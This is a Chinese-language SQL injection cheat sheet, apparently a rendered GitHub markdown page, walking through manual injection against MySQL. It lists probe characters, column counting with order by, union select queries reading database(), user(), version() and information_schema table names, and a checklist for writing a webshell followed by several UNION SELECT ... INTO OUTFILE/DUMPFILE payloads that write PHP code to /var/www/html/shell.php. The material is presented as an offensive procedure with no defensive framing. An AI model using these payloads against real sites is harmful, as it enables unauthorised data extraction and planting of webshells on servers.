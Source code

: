 ### 手工注入流程

1. 判断url是否存在注入及注入类型（数字型，字符串）

   ```
   '
   ')
   "
   ")
   #
   and
   or
   ```

2. 判断字段数（order by x）

3. 判断回显点（union select 1,2,3）

4. 通过回显点查询数据（数据库当前表名、版本、操作系统版本、用户等等）

   ```sql
   group_concat()
   concat()
   concat_ws()
   database()
   user()       
   version()    
   @@datadir  #显示数据库数据保存路径
   @@basedir  #显示mysql安装路径
   @@version_compile_os  #显示mariadb数据编译的操作系统
   ```

5. 通过回显点查询数据

   ```sql
   union select (select database()),(select table_name from information_schema.tables where table_schema=database()),3%23
   ```

6. 通过回显点查询字段内容数据

7. 判断是否满足写webshell的条件

   1. dba权限（数据库导入导出权限）

      ```sql
      show variables like '%secure%'  #查询全局变量
      ```

      或者使用sqlmap的--is-dba参数来进行判断

   2. 知道网站的绝对路径

   3. 未对单双引号做限制

   4. mysql用户可写

   ```sql
   union select 1,2,'<?=phpinfo();?>' into outfile '/var/www/html/shell.php'%23
   union select 1,2,'<?=phpinfo();?>' into dumpfile '/var/www/html/shell.php'%23
   union select 1,2,3 into outfile '/var/www/html/shell.php' lines terminated by '<?=phpinfo()?>'%23
   union select 1,2,3 into outfile '/var/www/html/shell.php' columns terminated by '<?=phpinfo()?>'%23
   union select 1,2,3 into outfile '/var/www/html/shell.php' fields terminated by '<?=phpinfo()?>'%23
   union select 1,2,3 into outfile '/var/www/html/shell.php' lines starting by '<?=phpinfo()?>'%23
   ```
